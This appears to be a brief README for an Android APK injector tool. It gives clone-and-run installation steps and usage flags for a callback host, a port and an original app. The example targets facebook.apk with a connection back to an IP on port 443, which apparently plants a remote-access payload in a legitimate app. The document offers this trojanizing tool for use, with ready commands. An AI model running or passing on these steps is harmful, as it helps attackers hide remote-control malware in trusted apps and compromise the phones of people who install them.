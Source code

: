 # x-apk
# installation:
      git clone https://github.com/sirai-ayoub/apk_injector.git
      chmod 777 apk_injector/x-apk.py && apk_injector/x-apk.py

# Usage:
      apk_injector/x-apk.py -h=<ip or host> -p=<port> -x=<original apk>

# Example:
      apk_injector/x-apk.py -h=192.168.1.5 -p=443 -x=facebook.apk
